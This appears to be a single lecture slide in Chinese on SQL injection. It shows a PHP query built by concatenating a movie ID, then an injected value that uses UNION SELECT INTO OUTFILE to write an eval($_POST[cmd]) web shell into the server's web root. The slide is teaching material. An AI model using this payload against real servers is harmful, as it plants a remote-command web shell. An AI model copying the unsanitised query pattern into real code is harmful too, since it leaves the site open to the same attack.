

# SQL注入
示例4(非常恐怖！！！)
$query = “SELECT * FROM v_movie WHERE movieid=$movieid” ;
$movieid = “1 UNION select '<?php eval($_POST[cmd])?>' into outfile '/www/xxx/htdocs/webshell.php' ”;
$query = “SELECT * FROM v_movie WHERE movieid= 1 UNION select '<?php eval($_POST[cmd])?>' into outfile '/data/wwwroot/public_html/webshell.php' ” ;
OK,U can do anything you like！